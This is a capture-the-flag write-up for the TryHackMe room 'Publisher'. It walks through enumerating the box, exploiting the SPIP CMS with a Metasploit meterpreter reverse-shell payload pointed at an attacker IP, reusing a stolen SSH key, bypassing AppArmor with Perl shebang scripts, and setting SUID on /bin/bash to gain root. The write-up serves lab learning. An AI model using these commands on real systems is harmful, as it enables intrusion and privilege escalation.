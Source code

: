 # Writeup for Room "Publisher"

This is the writeup for the box Publisher

## 🔍 Enumeration Phase

## 1. WebSite
- The website is running on Apache.
- No useful information was found in `robots.txt`.

    ![WebSite](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/publisher/screenshots/00.png)

    ![robots.txt](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/publisher/screenshots/01.png)

## 2. Fuzzing
-  **Dirbuster / Gobuster** was used to find directories and files, the following images show the results:

    ![Fuzzing](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/publisher/screenshots/02.png)

> [!NOTE]
> There is a list of images that might contain hidden information (steganography).

## 📡 3. Nmap Scan
- The following information was found:
  - The port 22 is open. **SSH**
  - The port 80 is open. **HTTP (Apache)**

    ![Nmap Scan](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/publisher/screenshots/03.png)

## 4. More Fuzzing 
- I also used the command ```dirsearch -u ip-machine``` to find more directories and files.

    ![dirsearch](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/publisher/screenshots/04.png)

## 🌐🖥️ 5. WebSite - Investigation
- It turns out that SPIP is a free and open-source CMS.

    ![spip](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/publisher/screenshots/05.png)

- We have identified a directory called ```/spip```:

    ![spip-2](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/publisher/screenshots/06.png)

- And there's a login form located at ```/spip/spip.php```.

    ![spip-3](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/publisher/screenshots/07.png)

## 🌐🖥️ 6. WebSite - Reverse Shell

- After several attempts, I managed to exploit SPIP using msfconsole with the following configuration:

```bash
set RHOSTS <TARGET_IP>
set TARGETURI /spip/
set PAYLOAD php/meterpreter/reverse_tcp
set LHOST <YOUR_ATTACKER_IP> (in my case, my VPN IP)
```

![msfconsole](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/publisher/screenshots/08.png)

- Then I navigated to ```/home/think``` and found the first flag.

    ![first-flag](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/publisher/screenshots/09.png)

## 🌐🖥️ 7. Enumeration exploits - LinPEAS

- I decided to upload linpeas.sh, gave it execute permissions, and used it to check for possible privilege escalation vectors.

    ![linpeas](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/publisher/screenshots/10.png)

## 🔑 8. SSH Access

- After reviewing the output from LinPEAS, I found an SSH private key.

    ![ssh-key](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/publisher/screenshots/11.png)

- I downloaded the key, but when trying to use it, I got a permission denied error. I had to run:

    ![ssh-key-2](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/publisher/screenshots/12.png)

- ```chmod 600 <key_file>``` to be able to connect successfully.

    ![ssh-key-3](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/publisher/screenshots/13.png)

    ![ssh-key-4](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/publisher/screenshots/14.png)

## 🐚💻🚀 9.Privilege Escalation

- The room's hint mentioned AppArmor. After searching around and experimenting, I ran the following command ```ls /etc/apparmor.d/ -la``` to gather more information on the active profiles:

    ![apparmor](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/publisher/screenshots/15.png)

- There was a file named ```usr.sbin.ash```, which looked interesting, and I had permission to use a script called ```run_container```.

    ![run_container](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/publisher/screenshots/16.png)

- The ```sbin.ash``` AppArmor profile contains rules that deny access to certain directories.

    ![apparmor-2](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/publisher/screenshots/17.png)

- While researching online, I found a trick to bypass AppArmor using a container and chmod, as described here: https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/docker-security/apparmor.html#apparmor-shebang-bypass

- I tried running:

```bash
echo '#!/usr/bin/perl
use POSIX qw(strftime);
use POSIX qw(setuid);
POSIX::setuid(0);
exec "/bin/sh"' > /tmp/test.pl
chmod +x /tmp/test.pl
/tmp/test.pl
```
- But it returned a "Permission denied" error.

    ![permission-denied](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/publisher/screenshots/18.png)

- Then I tried the following:

```bash
echo -e '#!/usr/bin/perl\nexec "/bin/sh"' > /dev/shm/test.pl
chmod +x /dev/shm/test.pl
/dev/shm/test.pl
```

- ```/dev/shm``` is a temporary shared memory location with more relaxed permissions.
- A simple Perl script is created and executed to launch ```/bin/sh```.
- Result: Shell access was granted, but not yet with root privileges.

    ![shell-access](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/publisher/screenshots/19.png)

- Then I executed the following:
  
```bash
echo '#!/bin/bash\nchmod +s /bin/bash' > /opt/run_container.sh
```

- This script does the following: ```chmod +s /bin/bash``` → Sets the SUID bit on /bin/bash, allowing it to inherit the owner’s privileges (root) when executed.

- Now, if we run ```/bin/bash -p``` and execute ```cat /root/root.txt``` or ```id```, we can see the final flag and confirm we have root privileges.

    ![root-privileges](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/publisher/screenshots/20.png)
